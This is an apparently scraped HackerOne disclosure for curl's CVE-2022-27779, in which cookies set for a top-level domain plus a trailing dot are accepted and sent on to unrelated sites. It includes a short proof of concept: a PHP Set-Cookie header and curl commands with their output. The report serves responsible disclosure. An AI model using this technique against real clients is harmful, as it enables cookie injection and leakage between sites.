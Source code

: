 # CVE-2022-27779: cookie for trailing dot TLD

## Report Details
- **Report ID**: 1553301
- **URL**: https://hackerone.com/reports/1553301
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-28T08:30:28.193Z
- **Disclosed**: 2022-05-11T07:59:55.062Z

## Reporter
- **Username**: haxatron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
In CVE-2014-3620 curl prevents cookies from being set for Top Level Domains (TLDs). According to the advisory, curl's "cookie parser has no Public Suffix awareness", but it will "reject TLDs from being allowed". However, a cookie can still be set for a TLD + trailing dot. 

A trailing dot after a TLD is considered legal and curl will send the http://example.com. to http://example.com

## Steps To Reproduce:
1. Create an Apache file like the following
````
<?php

header("Set-Cookie: a=b; Domain=.me.");
````
2. Now save the cookie to curl and see the cookie is set for .me. 
````
curl -c cookies.txt http://localtest.me./index.php
````
cookies.txt:
````
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

.me.    TRUE    /       FALSE   0       a       b
````
3. Requests sent via curl to the domain with TLD + '.' will now contain the particular cookie.
````
curl -b cookies.txt http://domain.me./index.php
````
````
GET / HTTP/1.1
Host: domain.me.
User-Agent: curl/7.83.0
Accept: */*
Cookie: a=b
````

## Impact

Cookies can be set by arbitrary sites for TLD + ".", and if a trailing dot is used for an unrelated site, curl will send the cookie to the unrelated site.

## Attachments
No attachments
